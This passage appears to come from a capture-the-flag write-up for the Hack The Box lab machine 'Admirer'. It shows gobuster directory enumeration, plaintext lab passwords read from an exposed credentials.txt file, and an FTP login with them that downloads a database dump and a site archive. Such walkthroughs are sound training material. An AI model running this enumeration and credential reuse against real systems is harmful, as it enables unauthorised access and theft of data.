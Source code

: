 ![admin dir](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/admirer/80-admin-dir.png)

Thanks to `gobuster`, we can see that there are two hidden files `contacts.txt` and `.txt` in `/admin-dir`.

```bash
$ gobuster dir -u http://$TARGET/admin-dir -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -x .txt,.php
/contacts.txt (Status: 200)
/credentials.txt (Status: 200)
```

- `contacts.txt`:

![admin dir](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/admirer/80-admin-dir-contacts.png)

6 potential users:

- penny wise
- rajesh nayyar
- amy bialik
- leonard galecki
- howard helberg
- bernadette rauch

- `credentials.txt`:

![admin dir](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/admirer/80-admin-dir-credentials.png)

Now we have some useful credentials:
- **Internal mail account**:
    + username &rarr; w.cooper@admirer.htb
    + password &rarr; fgJr6q#S\W:$P

- **FTP account**:
    + username &rarr; ftpuser
    + password &rarr; %n?4Wz}R$tTF7

- **Wordpress account**:
    + username &rarr; admin
    + password &rarr; w0rdpr3ss01!


### FTP (port 21)

```bash
$ ftp $TARGET
Connected to 10.10.10.187.
220 (vsFTPd 3.0.3)
Name (10.10.10.187:root): ftpuser
331 Please specify the password.
Password: %n?4Wz}R$tTF7
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0            3405 Dec 02  2019 dump.sql
-rw-r--r--    1 0        0         5270987 Dec 03  2019 html.tar.gz
226 Directory send OK.
ftp> get dump.sql
local: dump.sql remote: dump.sql
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for dump.sql (3405 bytes).
226 Transfer complete.
3405 bytes received in 0.00 secs (1.0795 MB/s)
ftp> get html.tar.gz
```